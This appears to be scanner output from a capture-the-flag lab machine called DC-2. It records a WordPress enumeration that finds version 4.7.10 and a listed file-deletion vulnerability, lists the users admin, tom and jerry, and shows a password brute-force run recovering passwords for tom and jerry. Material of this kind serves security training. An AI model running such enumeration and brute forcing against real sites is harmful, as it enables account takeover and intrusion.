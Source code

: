 ```jsx
[!] Detected 1 user from RSS feed:
+-------+
| Name  |
+-------+
| admin |
+-------+
[!] Includes directory has directory listing enabled: http://dc-2/wp-includes/

[+] Enumerating WordPress version ...

[+] WordPress version 4.7.10 (Released on 2018-04-03) identified from meta generator, links opml
[!] 1 vulnerability identified from the version number

[!] Title: WordPress <= 4.9.6 - Authenticated Arbitrary File Deletion
    Reference: https://wpvulndb.com/vulnerabilities/9100
    Reference: https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/
    Reference: http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/
    Reference: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    Reference: https://wordpress.org/news/2018/07/wordpress-4-9-7-security-and-maintenance-release/
    Reference: https://www.wordfence.com/blog/2018/07/details-of-an-additional-file-deletion-vulnerability-patched-in-wordpress-4-9-7/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12895
[i] Fixed in: 4.7.11

[+] WordPress theme in use: twentyseventeen - v1.2

[+] Name: twentyseventeen - v1.2
 |  Last updated: 2018-08-02T00:00:00.000Z
 |  Location: http://dc-2/wp-content/themes/twentyseventeen/
 |  Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 1.7
 |  Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found passively

[+] Enumerating usernames ...
[+] We identified the following 3 users:
    +----+-------+-------------+
    | ID | Login | Name        |
    +----+-------+-------------+
    | 1  | admin | admin       |
    | 2  | tom   | Tom Cat     |
    | 3  | jerry | Jerry Mouse |
    +----+-------+-------------+
[!] Default first WordPress username 'admin' is still used
[+] Starting the password brute forcer
  Brute Forcing 'admin' Time: 00:00:38 <=================================================================== > (714 / 715) 99.86%  ETA: 00:00:00
  [+] [SUCCESS] Login : tom Password : parturient                                                                                              

  [+] [SUCCESS] Login : jerry Password : adipiscing                                                                                            

```